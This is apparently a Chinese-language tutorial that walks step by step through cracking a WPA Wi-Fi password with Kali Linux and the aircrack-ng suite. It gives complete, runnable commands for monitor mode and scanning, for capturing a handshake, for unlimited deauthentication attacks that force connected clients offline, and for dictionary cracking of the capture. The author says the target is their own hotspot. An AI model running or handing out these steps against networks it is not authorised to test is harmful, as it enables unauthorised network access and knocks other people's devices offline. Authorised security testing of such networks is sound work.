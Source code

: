 ### 1. 环境准备

| 笔记本一台                         |
| ---------------------------------- |
| kali系统（安装在笔记本vm虚拟机上） |
| usb无线网卡                        |

### 2. 插入无线网卡到笔记本

插入网卡，会提示连接本机还是虚拟机。这时候选择连接至虚拟机

#### 2.1 在kali系统中输入以下命令查看无线网卡信息

```shell
┌──(root💀kali)-[~]
└─# airmon-ng 

PHY     Interface       Driver          Chipset

phy0    wlan0           mt7601u         Xiaomi Inc. MediaTek MT7601U [MI WiFi]
```

#### 2.2 开启网卡监听模式

```shell
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
  19007 NetworkManager
  36744 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           mt7601u         Xiaomi Inc. MediaTek MT7601U [MI WiFi]
                (monitor mode enabled)
```

我们可以看到输出得信息显示 monitor mode enabled，也可以使用如下命令查看网卡模式

```shell
┌──(root💀kali)-[~]
└─# iwconfig wlan0
wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

### 3.  扫描附近wifi热点信息

```shell
airodump-ng wlan0
```

![image-20220805105410362](https://longlizl.github.io/kali相关/images/1.png)

我以上图中我自己wifi热点来破解密码

#### 3.1 抓取握手包

```shell
命令格式：

airodump-ng -c {CH} --bssid {BSSID}  {监听接口名} -w {要保存握手包的目录及名字}
```



```
airodump-ng -c 11 --bssid 00:E0:4C:81:96:D1 wlan0 -w /root/grab
```

![image-20220805121517136](https://longlizl.github.io/kali相关/images/2.png)

#### 3.2 攻击连接wifi热点得客户端让其下线并重新连接以获取握手包

```shell
命令格式：

aireplay-ng -0 {发送反认证包的个数} -a {BSSID} -c {强制下线的MAC地址（STATION下面的地址）} 监听接口名

aireplay-ng -0 0 -a 00:E0:4C:81:96:D1 -c AC:E0:10:31:62:1F wlan0
```

如果未指定-c 参数 则攻击所有客户端让其下线

重新打开一个shell窗口执行如下命令

```
aireplay-ng -0 0 -a 00:E0:4C:81:96:D1  wlan0
#其中0表示发送无数次
```

![image-20220805121832936](https://longlizl.github.io/kali相关/images/3.png)

返回上一个终端可以看到3.1下图中已经获取到握手包信息 ctrl+c停止抓包

### 4. 使用aircrack-ng进行破解

查看抓取的包

![image-20220805131622913](https://longlizl.github.io/kali相关/images/4.png)

命令格式：aircrack-ng -w {本地的字典文件（破解的关键）} {握手包}

```shell
aircrack-ng -w pw.txt /root/grab-01.cap 
```

![image-20220805131843063](https://longlizl.github.io/kali相关/images/5.png)

上图中可以看到密码已经破解出来了 
